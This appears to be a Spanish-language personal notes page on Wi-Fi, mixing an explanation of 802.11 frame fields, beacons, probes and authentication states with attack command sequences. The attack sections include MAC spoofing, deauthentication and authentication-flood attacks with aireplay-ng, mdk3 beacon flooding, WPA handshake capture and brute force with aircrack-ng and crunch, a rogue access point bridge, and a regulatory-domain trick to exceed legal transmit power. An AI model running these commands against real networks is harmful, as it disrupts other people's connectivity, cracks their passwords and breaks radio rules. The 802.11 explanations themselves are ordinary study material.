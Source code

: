 ```yaml
---
title: 'Wi-fi'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1685504739/Screenshot_from_2023-05-30_23-45-31_akzecv.png'
slug: 'trip/wifi'
---
```


### Basic

La maxima transmision de poder esta basado en las leyes de cada pais llamado regulatory domain (regdomain) que corresponde al ISO del codigo del pais.

Por defecto el adaptador esta configurado a cero, pero se puede cambiar por la linea de comandos

#### 802.11 MPDU (MAC Protocol DATA Unit) formato

Cada campo esta anotado por la longitud de su byte

<div id="table">

| bytes 2          | 2           | 6       | 6     | 6       | 2                | 6     | 0-2312     | 4         |     |       |
| ---------------- | ----------- | ------- | ----- | ------- | ---------------- | ----- | ---------- | --------- | --- | ----- |
| frame control    | Duration ID | Addr1   | Addr2 | Addr3   | Sequence Control | Addr4 | Frame Body | fcs       |     |       |
| protocol version | type        | subtype | to DS | From DS | More flag        | Retry | Pwr Mgmt   | More Data | wep | order |
| bits 2           | 2           | 4       | 1     | 1       | 1                | 1     | 1          | 1         | 1   | 1     |

</div>

```bash

# Caffe-Latte Attack
lsmod
# basics #
iwconfig
#more information
iw list

# Pone el wifi en el canal 11
iwconfig wlan0 channel 11
iw dev wlan0 set channel 11

# dbm #
# incrementar el maximo poder de transmision en el adaptador wifi
iw reg set BO

# 30 dbm corresponde a 1000mW
iw dev wlan0 set txpower fixed 30dbm

# confirmar que funciona
iwconfig wlan0

# test mode (calidad de nuestro setup para el AP "access point") #
aireplay-ng -9 wlan0

```

<img src='https://res.cloudinary.com/djc1umong/image/upload/v1685504598/Screenshot_from_2023-05-30_23-42-53_qued87.png' />

```bash
## Set MONITOR MODE
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up
## cambiar nuestro mac para camuflarse
#ifconfig eth0 hw ether 00:11:22:33:44:55

macchanger -h
sudo airmon-ng check
sudo airmon-ng check kill

ifconfig wlan0 down

iwconfig wlan0

ifconfig wlan0 up

# creamos la interfaz mon0 a partir de wlan0
iw dev wlan0 interface add mon0 type monitor

#########################################
sudo ip link set wlp1s0 down
#sudo iw wlp1s0 set monitor none
#;sudo iw wlp1s0 set type managed
;sudo iw wlp1s0 set type monitor
sudo ip link set wlp1s0 up
###########################

ifconfig mon0 up

# monitoreamos toda la red
airodump-ng wlan0

# Monitoreamos la red mac_address por el canal 36 usando la interface wlan0
airodump-ng --bssid mac_address -c 36 wlan0 -w captura.txt

# Enviamos paquetes de deactentication
aireplay-ng -0 15 -a mac_address -c device_address_station wlan0

# ataque deauth
aireplay-ng -0 1 -a mac_address_BSSID -c device_address_station-client_mac wlan0

# ataque de authenticacion para saturar la red
aireplay-ng -1 0 -a mac_address -h device_address_station_random wlan0

# Enviar usuaruois de one
mdk3 wlan0 a -a mac_address

## Ataque 3 de beacons meter usuarios a la red wifi
# usando wlan0 ataque b con el archivo redes.txt -a wpa2 cada segundo x el canal 11
# cat redes.txt
# network1
# network2
# network3

mdk3 wlan0 b -f redes.txt -a -s 1000 -c 11

# Brute force
aircrack-ng -w wordlist cap.file

# create diccionario, dictionary
# generate, generar, contraseñas
crunch 8 8 | aircrack-ng -e RosNetwork file.cap -w -

# crunch 8 8 -t passwo@% >> passwords

```

**BSSID:** Identifica un AP
**Dirección de destino (DA):** Destino final para recivir el frame
**Dirección fuente (SA):** Fuente original que creo el frame
**Dirección del destinatario (RA):** Destino STA
**Dirección del transmisor (TA):** Transmisor STA

Los _beacons_ son fotogramas que transmite periodicamente el AP. Su proposito es anunciar la red WI-FI, contiene información sobre los parametros de la red y capacidades del AP como tasas de rendimiento admitidas

_Probe requests_ son enviados por el cliente para determinar la disponibilidad de la red, contiene el nombre SSID y es enviado por todos los canales, un nullbyte puede ser enviado si no quiere buscar una red especifica

_Probe responses_ son enviados por el AP una vez que recibe el probe request, son parecidos al beacon pero con información adicional según lo especificado por el cliente que se comunica dentro del prove request correspondiente

Despues de la authenticación una estacion necesita ser asociada por el AP, este es el proposito del _Association Request_ frames, contiene información sobre las capacidades STA, velocidades de data transmitida y el SSID de la red a la que desea asociarse

### 3 estados posibles de conexión

- No autenticado
- Autenticado pero no asociado
- Autenticado y asociado

El estandar 802.11 original especifica que hay 2 modos de autenticación diferentes.

- Autenticación abierta
- Autenticación de llave compartida

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1691031056/Screenshot_from_2023-08-02_22-50-09_yi6gyw.webp" alt="airodump-ng">

esta seccion muestra información sobre los clientes de la red

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1691031181/Screenshot_from_2023-08-02_22-52-47_mzhdsw.webp" alt="">

- [DB para brute-force](https://www.renderlab.net/projects/WPA-tables/)

### Airbase-ng

```bash
# Deprecated
# brctl addbr br0
# brctl addif br0 eth0
# brctl addif br0 at0

ip link add br0 type bridge
ip link set dev eth0 master br0
ip link set dev at0 master br0

ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig br0 192.168.0.10 up

iptables -t nat -A POSTROUTING -o br0 -j MASQUERADE

echo 1 > /proc/sys/net/ipv4/ip_forward

# Disponible para conectarse a internet en este punto

ip link set veth0 up
ip link set veth0-br up
```
